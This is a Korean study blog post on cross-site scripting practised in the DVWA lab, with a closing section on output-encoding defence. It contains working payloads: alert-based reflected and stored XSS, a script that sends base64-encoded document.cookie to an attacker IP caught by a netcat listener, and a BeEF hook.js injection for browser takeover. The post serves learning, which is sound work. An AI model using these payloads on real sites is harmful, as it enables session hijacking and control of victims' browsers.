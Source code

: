 ```yaml
---
layout: post
title: "XSS (Cross-Site Scripting) 공부"
date: 2025-09-15 17:00:00 +0900
categories: [웹 해킹]
---
```


### 1. 개요

XSS(Cross-Site Scripting)는 공격자가 웹 애플리케이션에 악성 스크립트를 삽입하여 다른 사용자의 브라우저에서 해당 스크립트가 실행되도록 만드는 공격이다. 이 공격은 [A03: Injection](https://hamap0.github.io/projects/owasp-top-10/2025/08/27/A03_Injection.html) 보고서에서 다룬 인젝션 공격의 한 종류이며 취약점 존재 증명이나 세션 쿠키 탈취 등 다양한 목적으로 사용될 수 있다.

---

### 2. 기본 유형 및 실습

#### **Reflected XSS (반사형)**
공격 스크립트가 URL 파라미터 등을 통해 서버로 전달된 후, 서버가 그 값을 응답 페이지에 그대로 포함하여 사용자에게 돌려줄 때 발생한다.

*   **DVWA 실습:**
    `XSS (Reflected)` 페이지에서 `name` 파라미터 값으로 `<script>alert('Reflected XSS')</script>`를 주입하면 서버 응답에 이 스크립트가 포함되어 경고창이 실행된다.

    [여기에 Reflected XSS 공격 성공 화면 스크린샷 삽입]

#### **Stored XSS (저장형)**
공격 스크립트가 게시판이나 방명록처럼 서버의 데이터베이스에 영구적으로 저장될 때 발생한다. 해당 페이지를 방문하는 모든 사용자가 공격의 영향을 받는다.

*   **DVWA 실습:**
    `XSS (Stored)` 페이지의 방명록에 `<script>alert('Stored XSS')</script>`를 포함한 메시지를 남기면 해당 스크립트가 데이터베이스에 저장된다. 이후 이 페이지를 방문하는 모든 사용자의 브라우저에서 경고창이 실행된다.

    [여기에 Stored XSS 공격 성공 화면 스크린샷 삽입]

---

### 3. 심화 활용: 쿠키 탈취

XSS 취약점은 사용자의 세션 쿠키를 탈취하여 계정을 도용하는 세션 하이재킹 공격에 사용될 수 있다.

#### **1. 공격자 리스너**
탈취한 쿠키를 수신하기 위해 공격자 PC에 서버가 필요하다. [보안 분석을 위한 리눅스 명령어 공부](https://hamap0.github.io/study/시스템-해킹/2025/09/14/보안-분석을-위한-리눅스-명령어-공부.html)에서 다룬 `netcat`을 이용해 특정 포트에서 연결을 대기하는 리스너를 실행할 수 있다.
```bash
# 80번 포트에서 연결을 대기하며 상세 정보를 출력
sudo nc -lvnp 80
```

#### **2. 쿠키 탈취 페이로드**
피해자의 브라우저에서 `document.cookie` 값을 읽어와 공격자 서버 `192.9.200.12`로 전송하는 스크립트이다.
```javascript
<script>
  document.location='http://192.9.200.12/?cookie=' + btoa(document.cookie);
</script>
```
*   `btoa()`: 쿠키 값에 포함될 수 있는 특수문자로 인해 URL이 깨지는 것을 방지하기 위해 Base64로 인코딩한다.

#### **3. 결과 확인**
이 페이로드를 Stored XSS 취약점이 있는 방명록에 삽입하면 해당 페이지를 방문하는 사용자의 브라우저는 스크립트를 실행한다. 그 결과 공격자의 `netcat` 리스너에는 피해자의 쿠키 값이 포함된 HTTP GET 요청이 수신된다.

[여기에 쿠키 값이 수신된 netcat 터미널 스크린샷 삽입]

### 4. 심화 활용 2: 브라우저 제어권 획득 (BeEF 연동)

XSS 공격의 파급력은 쿠키 탈취에 그치지 않는다. **BeEF(The Browser Exploitation Framework)**와 연동하면 피해자의 브라우저를 좀비처럼 제어하여 추가 공격을 수행할 수 있다.

#### **1. BeEF 실행 및 Hook URL 확인**
1.  공격자 PC에서 BeEF 프레임워크를 실행한다.
    ```bash
    sudo beef-xss
    ```
2.  BeEF의 관리자 페이지(UI)에 접속하여 로그인한다.
3.  관리자 페이지에 표시된 **Hook URL** (예: `<script src="http://192.9.200.12:3000/hook.js"></script>`)을 복사한다. 이 스크립트가 피해자의 브라우저를 제어하는 핵심 코드이다.

#### **2. Hook 스크립트 주입**
1.  복사한 Hook URL 스크립트 전체를 Stored XSS 취약점이 있는 DVWA 방명록에 삽입하고 게시글을 등록한다.

#### **3. 브라우저 Hooking 및 제어**
1.  피해자가 해당 방명록 페이지를 방문하면 브라우저는 자신도 모르게 **`hook.js`** 스크립트를 실행하고 공격자의 BeEF 서버에 연결된다.
2.  공격자는 BeEF 관리자 페이지의 `Online Browsers` 목록에서 연결된 피해자의 브라우저(Hooked Browser)를 확인할 수 있다.
3.  공격자는 `Commands` 탭의 다양한 모듈을 사용하여 피해자 브라우저를 대상으로 추가 공격을 수행할 수 있다.
    *   **Get Cookies**: 피해자의 쿠키 정보를 가져온다.
    *   **Redirect Browser**: 피해자의 브라우저를 특정 피싱 사이트로 강제 이동시킨다.
    *   **Create Alert Dialog**: 피해자의 화면에 임의의 경고창을 띄운다.

---

### 5. 방어 방안: 출력 인코딩

XSS 공격의 근본적인 원인은 사용자가 입력한 데이터를 서버가 그대로 HTML의 일부로 해석하여 출력하기 때문이다. 이를 막는 가장 효과적인 방법은 **출력 인코딩(Output Encoding)**이다.

사용자가 입력한 문자열에 포함된 `<`, `>` 같은 특수문자를 브라우저가 HTML 태그로 해석하지 못하도록 아래와 같이 안전한 문자(HTML Entities)로 변환하여 출력해야 한다.
*   `<` → `&lt;`
*   `>` → `&gt;`

이렇게 인코딩된 문자열은 브라우저 화면에는 원래의 꺾쇠 기호로 보이지만 HTML 파서는 이를 태그의 시작과 끝이 아닌 단순한 텍스트로만 인식하므로 스크립트가 실행되지 않는다.

<hr class="short-rule">
